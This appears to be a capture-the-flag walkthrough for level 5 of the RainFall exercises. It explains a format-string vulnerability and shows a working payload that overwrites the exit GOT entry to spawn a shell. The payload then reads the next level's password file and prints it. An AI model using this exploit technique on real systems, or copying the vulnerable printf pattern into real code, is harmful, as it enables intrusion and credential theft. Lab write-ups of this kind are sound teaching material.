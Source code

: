 # Level 5

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdlib.h>
#include <stdio.h>

void o(void)
{
    system("/bin/sh");
    _exit(1);
}

void n(void)
{
    char buffer[512];
    fgets(buffer, 512, stdin);
    printf(buffer);
    exit(1);
}

int main(void)
{
    n();
}
```

Let's focus on the `n` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. However the `printf` function is known to be unsafe when user input is passed as the format argument, it's referred to as a format string vulnerability.

This exercise is the same as the previous ones, except that we have to write the address of the `o` function into the value that the address of GOT table points to, called by `exit`. Please refer to the [level3 walkthrough](../level3/walkthrough.md) for a detailed explanation of the format string vulnerability.

This only works because `exit` is a function in the Procedure Linkage Table (PLT), a mechanism used in dynamic linking to call external functions. When a function like `exit` is called, the PLT initially redirects to the Global Offset Table (GOT), which then points back to the PLT and subsequently to the dynamic linker for the first call.
> Read more about that [here](https://reverseengineering.stackexchange.com/questions/1992/what-is-plt-got).

Here you see the disassembly of the `exit` function:
```bash
(gdb) disass exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
```

The PLT is the set of instructions you see (`jmp`, `push`, `jmp`).  
The GOT is referenced by the address `0x8049838`, which is used in the indirect jump instruction.

The `jmp *0x8049838` instruction dereferences the address stored at `0x8049838` and jumps to it. After our tampering, this will be the address of the `o` function.

So, first let's locate our input string on the stack:
```bash
level5@RainFall:~$ python -c 'print("AAAA %x %x %x %x")' | ./level5
AAAA 200 b7fd1ac0 b7ff37d0 41414141
```

In this output, 41414141, the hexadecimal representation of 'AAAA', is found at the fourth position.

Using gdb we find that that the address of the `o` function is `0x080484a4` and we showed before that the address of the GOT table is `0x8049838`.

We can then craft our payload:
```
address of the GOT table + address of o + %n format specifier pointing to the fourth argument

"\x08\x04\x98\x38"[::-1] + "%134513824p" + "%4$n"
```

Since we need to write `080484A4` into the value pointed to by the address of the GOT table, we write 134513828 (`080484A4` in decimal) characters (4 from the address of the GOT table and 134513824 from the width specifier of `%p`).  
Then, we use the `%n` format specifier to write the count of bytes written so far into the fourth argument, which corresponds to the GOT table address.

Let's run our payload:
```bash
level5@RainFall:~$ (python -c 'print("\x08\x04\x98\x38"[::-1] + "%134513824p" + "%4$n")' && echo 'cat /home/user/level6/.pass') | ./level5
[...]
0x200
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

We are now level6! Let's move on to the next level.
